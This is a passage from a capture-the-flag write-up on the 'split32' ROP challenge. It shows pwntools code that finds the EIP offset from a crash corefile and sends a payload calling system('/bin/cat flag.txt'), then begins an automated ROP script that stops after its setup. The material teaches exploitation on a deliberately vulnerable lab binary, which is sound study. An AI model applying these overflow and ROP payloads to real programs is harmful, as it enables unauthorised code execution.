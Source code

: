 ```python
io.wait()

# Open the corefile
core = io.corefile

# Print out the address of EIP at the time of the crash (segfault)
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))

# Craft a new payload which puts system('/bin/cat flag.txt') at the correct offset
# I need to research fit() not sure about how this works
payload = fit({
     eip_offset: [elf.symbols.system,
                  0x0,
                  binCat_addr]
} 
)

# Send payload to a new process
io = start()
io.sendline(payload)
io.recv()

# Grab flag.txt
flag = io.recvline()
success(flag)
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption><p>Result</p></figcaption></figure>

### Automate Exploitation with ROP (Additional Automation)

`auto-ROP.py`:

```python
#!/usr/bin/env python3

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './split32'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

#Delete core files once finished
context.delete_corefiles = True

```
